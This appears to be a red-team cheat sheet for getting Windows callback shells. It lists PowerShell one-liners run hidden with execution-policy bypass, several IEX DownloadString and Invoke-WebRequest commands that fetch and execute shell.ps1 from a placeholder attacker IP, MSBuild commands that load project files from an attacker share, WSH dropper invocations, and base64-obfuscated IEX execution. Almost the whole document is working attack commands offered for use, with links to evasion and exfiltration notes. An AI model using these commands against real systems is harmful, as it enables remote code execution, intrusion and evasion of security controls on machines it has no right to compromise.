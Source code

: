 # Windows

## 01 - Command Prompt

### 1.1 - Callback Shell

#### 1.1.1 - Execute Powershell Commands

- System32 is for 32-bit powershell payloads

```
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ex bypass -f file.ps1

C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f file.ps1

C:\Windows\system32\WindowsPowershell\v1.0\powershell.exe -nop -w hidden -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('http://<IP>/shell.ps1')"
```

- SysWOW64 is for 64-bit powershell payloads

```
C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -nop -ep bypass -f shell.ps1

C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f shell.ps1

C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -nop -w hidden -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('http://<IP>/shell.ps1')"
```

#### 1.1.2 - MSBuild

- Callback shells

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe shell.csproj

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\shell.csproj

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\shell.xml

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe shell.xml
```

#### 1.1.2 - WSH scripts droppers

- When deploying reverse shells as droppers or toolings with the following formats

```
C:\> wscript.exe <script.js | script.vbs>

C:\> cscript.exe <script.js | script.vbs | script.cs>
```

## 02 - Powershell

### 2.1 - Basics

```
PS C:\> Get-Command <command>

PS C:\> Get-Command -Module <powershell_module>
```

### 2.2 - Base64

#### 2.2.1 - Callback Shell Connection

- Execute a callback shell

```
PS C:\> IEX ([System.Text.Encoding]::Unicode.GetString(([convert]::FromBase64String('<base64_encoded>'))))

PS C:\> IEX (iwr -UseBasicParsing http://<IP>/shell.ps1);
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/Initial Access/Delivery/Web Drive-by/C2 Frameworks/Metasploit|Metasploit Web Drive-by]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/07 - File Transfer and Data Exfiltration/Linux/SMB|Linux Samba Server]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/07 - File Transfer and Data Exfiltration/Windows/SMB|SMB]]

- [[WebDAV]]

- [[4shared]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/03 - Defense Evasion/Applocker/C2 Frameworks/Metasploit|Applocker Defense Evasion: Metasploit]]

- [ss64.com Powershell](https://ss64.com/ps/powershell.html)

- [Hacktricks: Shells - Windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)

- [Hacking Articles: Windows Exploitation MSBuild](https://www.hackingarticles.in/windows-exploitation-msbuild/)

- [Red Team Notes: Using MSBuild to Execute Shellcode in C#](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)